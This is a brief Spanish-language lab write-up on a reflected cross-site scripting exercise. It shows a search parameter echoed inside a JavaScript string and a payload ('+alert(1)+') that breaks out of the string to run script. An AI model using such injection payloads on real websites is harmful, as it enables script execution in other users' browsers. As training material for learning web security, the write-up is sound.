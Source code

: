 ```yaml
---
layout: default
title: 09 - Reflected XSS into a JavaScript string with angle brackets HTML encoded
---
```


https://www.youtube.com/watch?v=eIHGNgibcjA
En un inicio el código no aparece en la página cuando hacemos la petición get en el campo de búsqueda se refleja el parámetro search en una variable de javascript, como podemos ver : 
```javascript
var searchTerms = 'test';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
```

```javascript
var searchTerms = '' + alert(1) + '';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
```
